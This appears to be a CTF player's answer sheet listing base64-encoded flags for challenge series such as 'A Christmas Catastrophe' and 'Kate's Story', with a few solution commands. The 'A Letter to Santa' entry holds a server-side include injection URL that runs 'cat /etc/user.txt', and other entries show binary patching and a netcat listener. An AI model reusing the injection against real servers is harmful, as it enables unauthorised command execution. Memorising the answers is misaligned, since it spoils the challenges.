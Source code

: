 ### May The Fourth
##### Mal Wars
- evilempir3.exe
- flag{MzNkYTNhZGZmNDQ4ZmI1OTYzYzUyYmI5Mzk3NzdmN2E=}

##### It's a Trap!
=> https://justhack.in/shell-escapes-cheatsheet
- flag{Y2Q1ZTE0OGVkYjE2OTYwODQ3NzU0MGM4NDc0NWQ4NWE=}

##### Order 66
=> jne (0x14ba)
vi -b order
:!xxd
i
esc
:wq
xxd -r order order2
chmod +x order2
./order2
- flag{N2YyN2ZmZmE2OTEwMGUyYmNhOWRkYTQzOTBhY2IyZmE=}

##### Rebel Intercept
=> nc -lvp 1337 -s 127.0.0.1
- flag{U29tZXRoaW5nLCBTb21ldGhpbmcsIFNvbWV0aGluZywgRGFyayBTaWRl}

##### Trash Talk
C-3PO: Are you there, sir?
Luke: 3PO!
C-3PO: We've had some problems...
Luke: Will you shut up and listen to me? Shut down all garbage mashers on the detention level, will you? Do you copy? Shut down all the garbag
e mashers on the detention level!
- flag{MmY0ODYw}


### A Christmas Catastrophe
##### The Grotto:
flag{YmRmMDk0}

##### Present Pandemonium
=> jq -s '.[1337]' presents.json
- flag{QW50b25pbw==}
- flag{SmVyc2V5}
- flag{MTYy}
- flag{MC4zMQ==}
- flag{OTk5OS45MQ==}
- flag{YjZjMTVm}


##### Santa's Sleighdar
- flag{OWQzZmM1}

##### Elf in a Shell(f)
- flag{OWRhNWE2}


##### Let It Snow
<not solved>

##### Santa's Naughty List
- flag{bmFtZXM=}
- flag{MTMzNA==}
- flag{MjY2Ng==}
- flag{MGEzZGEw}
- flag{MjA5Ng==}
- flag{MjE2Mw==}


##### A Christmas Phish
- flag{ODRkOTNybjFuajRAZ2VuZXJpY2VsZm1haWwub3Jn}
- flag{bmV3c0BuYXRpb25hbGVsZndvcmtlcnN1bmlvbi5jaHJpc3RtYXM=}
- flag{VG05MGFHbHVaeUIwYnlCelpXVWdhR1Z5WlEub25pb24=}
- flag{RnJlZGR5IE1jRmx1ZmY=}


##### A Letter to Santa
http://10.102.188.182/letter.php?message=%3C!--%23exec+cmd%3D%22cat+/etc/user.txt%22+--%3E
- flag{YmFhYjZh}


##### Kringle Inc.
- flag{THVtcCBvZiBjb2Fs}
- flag{SGFycnkgJiBNYXJ2}
- flag{RWdn}


### Kate's Story
##### Kate's Story: Ep.1
- flag{MTQvMDcvMjAxOCAxMzowMDowMw==}
- flag{Q2Fub24gRU9TIDZE}
- flag{U2FsbHkgTWljaGFlbHM=}
- flag{NTHDgsKwIDI2JyAzNi45IiBOb3J0aCwgMsOCwrAgMzgnIDE3LjMiIFdlc3Q=}
- flag{QXNodG9uIENvdXJ0}
- flag{MTkvMDMvMjAxOQ==}
- flag{MTA6NTE6MDQ=}
- flag{QSBjYXIgd2luZG93}

##### Kate's Story: Ep.2
- flag{eG1s}
- flag{MjU2}
- flag{cHlkb2MucHk=}
- flag{MDZjMTY0}

##### Kate's Story: Ep.3
- flag{QmFja2dyb3VuZCBjaGFuZ2VzLCBmaWxlcyBkZWxldGVkLCBwb3B1cCBib3ggYXBwZWFycw==}
- flag{UG93ZXJTaGVsbA==}
- flag{V2FsbHBhcGVy}
- flag{YS5wczE=}

##### Kate's Story: Ep.4
- flag{MHgxMDYw}
- flag{NDY2Mw==}
- flag{cG93ZXJzaGVsbC5leGU=}
- flag{NToyMjowMQ==}
- flag{NTQ=}
- flag{b3V0bG9vay5leGU=}
- flag{NDkxNg==}
- flag{QzpcXFVzZXJzXFxJTUxVc2VyXFxhLnBzMQ==}
- flag{MTcyLjE2LjEwMS4xNDU=}
- flag{RlRQ}
- flag{ZGF2ZTEyMw==}
- flag{TWljaGVsbGUvRGVza3RvcA==}
- flag{cGFzc3dvcmRzLnR4dA==}
- flag{SUxvdmVNeUtpZHMxMjM=}
- flag{aGFja2VyLmV4ZQ==}
- flag{MTE6NTk6NTM=}


##### Omnipotent Productions
### Omnipotent Productions: Ep.1 – Log Analysis
- flag{QSBwb3J0IHNjYW4=}
- flag{MjE=}
- flag{RlRQ}
- flag{My4wLjM=}
- flag{cm9vdA==}

### Omnipotent Productions: Ep.2 – FTP Server Hardening
- flag{ZDUyYmRk}

=> sudo -l
=> sudo chmod 750 /home/*/
- flag{NWU1NjMw}

### Omnipotent Productions: Ep.3 – OSINT
- flag{cnVzc2VsamFja19MMzN0}
- flag{QnJpc3RvbA==}
- flag{MjMvMDc=}
- flag{NjE3MQ==}
- flag{MQ==}
- flag{QWxleCBTbGF0ZXI=}

### Omnipotent Productions: Ep.4 – Packet Analysis
- flag{MTcyLjE3LjAuMw==}
- flag{VHJ1ZQ==}
- flag{U2FtLkI=}
- flag{RlRQLURBVEE=}
- flag{MjAyMS0wNy0yNyAxNzoyOTowNQ==}
- flag{ZFIwcmFuRzM=}

### Omnipotent Productions: Ep.5 – Forensics
- flag{SW52b2ljZQ==}
- flag{MjAyMS0wNy0zMCAxMDoxNzoxMw==}
- flag{QmFzZTY0}
- flag{VVhCOWFoQ1I=}
- flag{YWxleC5zbGF0ZXIub21uaXBvdGVudHByb2R1Y3Rpb25zQG91dGxvb2suY29t}
- flag{TGVnaW9uT2ZDaGFvczdAb3V0bG9vay5jb20=}
- flag{MC4x}
- flag{M2FhYTg=}

### Omnipotent Productions: Ep.6 – Theory
<not solved>